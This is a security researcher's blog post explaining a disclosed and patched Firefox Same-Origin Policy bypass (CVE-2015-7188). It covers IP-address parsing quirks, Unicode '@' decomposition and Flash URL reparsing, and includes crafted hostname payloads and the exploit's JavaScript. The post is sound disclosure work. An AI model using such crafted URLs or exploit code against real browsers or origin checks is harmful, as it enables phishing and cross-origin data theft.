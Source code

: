 ```yaml
---
title: "Firefox - Same-Origin Policy bypass (CVE-2015-7188)"
date: "2016-07-05"
description: "Same-Origin-Policy bypass via some obscure IP parsing in Firefox"
---
```


In this post I will explain the [Same-Origin policy bypass](https://www.mozilla.org/en-US/security/advisories/mfsa2015-122/) ([CVE-2015-7188](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-7188)) in Firefox I reported to Mozilla last year. The root cause of that issue was a minor nuance in IP address parsing in some of the most popular OS-es. The final working exploit, however, additionally needed Flash installed and activated on the victim's machine. Another limitation was that it only worked to http protocol. However, I think that this bug is interesting from a purely technical standpoint, hence I decided to share.

If  you don't know what Same-Origin Policy is, please refer to [the explanation in Wikipedia](https://en.wikipedia.org/wiki/Same-origin_policy). So let's start with the IP address parsing. At first, it may seem that you cannot say a lot about it because for most people the IP addresses are four numbers in range 0..255 separated by dots. And while that's true, there is a few different ways to express the same IP. For example: you may change some parts to octal, or hexadecimal, or you can join some parts, or omit some completely. For example, all the forms below express the same IP address: 216.58.209.68 (which belongs to www.google.com):

- 216.58.53572
- 0xD8.072.53572
- 3627733316
- 0330.3854660

I strongly recommend to watch [Nicolas Gregoire's presentation about SSRF](https://www.youtube.com/watch?v=8t5-A4ASTIU) in which he explains the technique in more detail. Anyway, during one of my tests I accidentally discovered that there's one other quirk in OS-es from BSD and Linux family. It turns out that you can append a whitespace character (0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x20) just after the proper numeric IP address and after that... you can append anything you want! So for example `127.0.0.1\x0Athat is weird` is perfectly fine IP address.

[![](https://2.bp.blogspot.com/-s0IY8Fxh8Tw/V3wMxijRKKI/AAAAAAAAAJE/0bYBwoYfNaUMIo1KU3fH9YRYGZPinuLoACK4B/s400/mb_%25E2%2580%2594_mb_ns3353159___%25E2%2580%2594_bash_%25E2%2580%2594_80%25C3%259721.png)](http://2.bp.blogspot.com/-s0IY8Fxh8Tw/V3wMxijRKKI/AAAAAAAAAJE/0bYBwoYfNaUMIo1KU3fH9YRYGZPinuLoACK4B/s1600/mb_%25E2%2580%2594_mb_ns3353159___%25E2%2580%2594_bash_%25E2%2580%2594_80%25C3%259721.png)

That's really weird but it actually works. So basically now we can have an arbitrary suffix in an IP address and it will still be correct.

### IP addresses in Firefox

So I became to wonder if it was possible to use the fact somehow in web browsers. This could definitely lead to some interesting vulnerabilities. And in fact - it did! Firefox accepted `\x0B` and `\x0C` whitespace characters just after the IP (later it turned out that Firefox uses its own internal IP parsing code on all platforms which, incidentally, was grabbed from the BSD). For example, if you entered the script: `location='http://37.187.18.85\x0Bwhatever_here'`, you were redirected to 37.187.18.85 (which is the bentkowski.info domain of mine).

[![](https://1.bp.blogspot.com/-mDLmE_56n2c/V3wOXa2lXoI/AAAAAAAAAJQ/8idvCed7fTgW8LievNn-aKdGwEf3eOQJACK4B/s400/Kali.png)](http://1.bp.blogspot.com/-mDLmE_56n2c/V3wOXa2lXoI/AAAAAAAAAJQ/8idvCed7fTgW8LievNn-aKdGwEf3eOQJACK4B/s1600/Kali.png)

`document.domain` and `location.origin` contained `\x0B` character unencoded, which, I believed at the time, could help in further exploitation. So what can we do here? At first I hoped that domain like `http://37.187.18.85\\x0B.test.google.com` would make Firefox send the global .google.com cookies to my domain. But no luck here; Firefox internally knew that the host name is still an IP address so it didn't send any cookies of Google. Anyway I could think of two methods to exploit the issue at this point. The first one was phishing attacks - the domain ending with ".google.com" might have seemed legit to some users. Hell, even the Firefox address bar highlighted the google.com part!

[![](https://4.bp.blogspot.com/-z5Ml4yXuVBU/V3wPfMkthuI/AAAAAAAAAJY/gQ95flRHDy4jGzdf7SsBPvnhNabgHkOiwCK4B/s400/Kali.png)](http://4.bp.blogspot.com/-z5Ml4yXuVBU/V3wPfMkthuI/AAAAAAAAAJY/gQ95flRHDy4jGzdf7SsBPvnhNabgHkOiwCK4B/s1600/Kali.png)

Another possible exploit was on some postMessage implementations. If any given implementation employed the code similar to: `if(origin.endsWith('.google.com')) ...` to check its origin, I could have easily bypass it.

But that still wasn't satisfactory to me, I rather expected some general exploit that wouldn't depend on someone's gullibility or some specific implementation of `postMessage`.

The next idea I had was to use the Unicode decomposition. Browsers protect from some kind of phishing attack by not allowing certain characters in domain names and changing them automatically to some other well-known characters. For example, let's have the character U+FF47 (FULLWIDTH LATIN SMALL LETTER G): "ｇ". It looks very similar to the ASCII letter "g" so domain [http://www.ｇ oogle.com/](http://www.google.com/) could be easily used to phishing. In real world, however, this can't be done because browser will redirect you to [http://www.google.com/](http://www.google.com/) anyway. The thing is that the decomposition happens not only to letters but also to some special characters, namely: @. U+FF20 ("＠") is an example of character that will be decomposed to @. So what happens if I try to go to domain `http://37.187.18.85\x0B\uFF20google.com`? Let's see.

[![](https://2.bp.blogspot.com/-kBuTcS0NZQc/V3wRX06AbcI/AAAAAAAAAJo/1AxBChlCnhw1IVtk5ZB15w7vuALKvYOewCK4B/s400/Kali.png)](http://2.bp.blogspot.com/-kBuTcS0NZQc/V3wRX06AbcI/AAAAAAAAAJo/1AxBChlCnhw1IVtk5ZB15w7vuALKvYOewCK4B/s1600/Kali.png)

Okay, I still couldn't get cookies from google.com or anything else but please notice in the screenshot that the favicon is set to the one of google.com. This meant that some part of code of Firefox was actually confused by the at-sign and assumed that it worked in google.com context. It was a pretty clear sign to me that I was going the right way :) I didn't show that in the screenshot but `document.domain` and `location.origin` actually contained "@" sign in its **decomposed** form.

The ultimate answer was Flash. For example, whenever you have a Flash applet hosted in google.com, you can issue any http request to google.com and read the response. And it turned out that it was it. When the flash was hosted from, say, `http://37.187.18.85\x0B\uFF20google.com`, then Firefox will internally store the address as `http://37.187.18.85\x0B@google.com` and when it'll pass the URL to Flash, Flash will parse it again and treat everything before the at-sign as username. So from Flash point of view, it works in `http://google.com`. Voila, that's the same origin policy bypass.

At ~[http://bentkowski.info/fx_sop_bypass/](http://bentkowski.info/fx_sop_bypass/)~ (dead link) you can find the final exploit along with the Flash file source code. The idea was pretty simple: user could enter the URL, from which JS extracted the hostname at attempted to load flash file from `"http://37.187.18.85\x0C\uFF20"+hostname`. Then Flash assumed it worked in a given hostname and the applet issued a GET request to given URL. The body of the response was then presented to the user. Here's the relevant JS code:

```javascript
function createRequest(url) {
  var a = document.createElement("a");
  a.href = url;
  var host = a.hostname;
  var embed = document.createElement("embed");
  var maliciousURL =
    "http://37.187.18.85\\x0c\\uff20" +
    host +
    "/fx_sop_bypass/FlashTest.swf?url=" +
    url;

  embed.setAttribute("allowscriptaccess", "always");
  embed.src = maliciousURL;
  document.body.appendChild(embed);
}

function getResponse(resp) {
  document.getElementById("status").textContent = "";
  document.getElementById("response").textContent = "";

  if (resp.status === "success") {
    console.log(resp);

    document.getElementById("response").textContent = resp.data.data;
  } else {
    document.getElementById("status").textContent =
      resp.data.type + ": " + resp.data.text;
  }
}
```

And a screenshot of working exploit:

[![](https://2.bp.blogspot.com/-hkOHIMh1ED0/V3wTa3B0R9I/AAAAAAAAAJ0/VvvjNAQEVvspRlyrtC28FOwN9iMfdqFxQCK4B/s400/Kali.png)](http://2.bp.blogspot.com/-hkOHIMh1ED0/V3wTa3B0R9I/AAAAAAAAAJ0/VvvjNAQEVvspRlyrtC28FOwN9iMfdqFxQCK4B/s1600/Kali.png)

### Summary

The Same-Origin Policy bypass in Firefox was possible thanks to a few quirks:

1.  In IP address you can append any suffix given there's a whitespace character after the IP,
2.  Browsers decompose some Unicode characters to prevent from phishing attacks. This could be used to insert "@" into the hostname.
3.  The URL address was passed to Flash, which treated "@" sign as separator between the authority part and hostname. Thanks to that, Flash assumed that it worked in different domain than it was actually loaded from.
4.  Using Flash ability to issue requests to its apparent origin, you could actually bypass the same-origin policy in Firefox.

